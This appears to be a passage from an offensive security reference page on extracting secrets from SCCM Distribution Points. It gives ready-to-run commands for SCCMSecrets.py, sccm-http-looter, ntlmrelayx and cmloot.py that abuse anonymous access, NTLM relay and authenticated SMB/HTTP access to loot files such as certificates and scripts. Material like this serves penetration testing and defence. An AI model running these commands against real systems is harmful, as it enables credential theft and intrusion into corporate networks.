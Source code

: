 :::


#### Distribution Point resources

By default, any authenticated user can retrieve Distribution Point resources which may contain secrets.

Resources can be downloaded through the SMB or HTTP protocols.

As previously mentioned, note that if anonymous access was configured on a Distribution Point, only the HTTP protocol can be used to download files without any credentials.

::: tabs

=== UNIX-based

##### HTTP

Regarding the HTTP protocol on Unix, [SCCMSecrets.py](https://github.com/synacktiv/SCCMSecrets/) (Python) can be used to index and download files from Distribution Points.

Not providing any credentials will attempt to exploit anonymous access on the Distribution Point. HTTPS and client authentication is also supported by this tool.

```bash
# Attempts to exploit anonymous access to index and download files
python3 SCCMSecrets files -dp http://$DP_IP

# Downloads files with specific extensions 
python3 SCCMSecrets.py files -dp http://$DP_IP -u '$USER' -H '$HASH' --extensions '.txt,.xml,.ps1,.pfx,.ini,.conf'

# Having indexed files first, downloads specific files from the Distribution Point
python3 SCCMSecrets.py files -dp http://$DP_IP -u '$USER' -p '$PASSWORD' --urls to_download.lst

# Perform file dump attack via HTTPS and client certificate authentication
python3 SCCMSecrets.py files -dp https://$DP_IP -u '$USER' -p '$PASSWORD' --pki-cert ./cert.pem --pki-key ./key.pem
```

If anonymous access is enabled on the Distribution Point, [sccm-http-looter](https://github.com/badsectorlabs/sccm-http-looter) (Golang) can also be used. It may be faster as it is written in Golang.

```bash
./sccm-http-looter -server 10.10.10.10
```

This attack is also possible via NTLM relay if you are able to relay the authentication data of a domain account. 
```bash
python3 examples/ntlmrelayx.py -t 'http://mecm.sccm.lab/sms_dp_smspkg$/Datalib' -smb2support --sccm-dp -debug
```

##### SMB

Regarding the SMB protocol, [cmloot.py](https://github.com/shelltrail/cmloot) (Python) can be used to dump files.
```bash
# Enumerate SCCM servers, build inventory and download
python3 cmloot.py $DOMAIN/$USER@$TARGET -findsccmservers -target-file sccmhosts.txt -cmlootdownload sccmfiles.txt
```
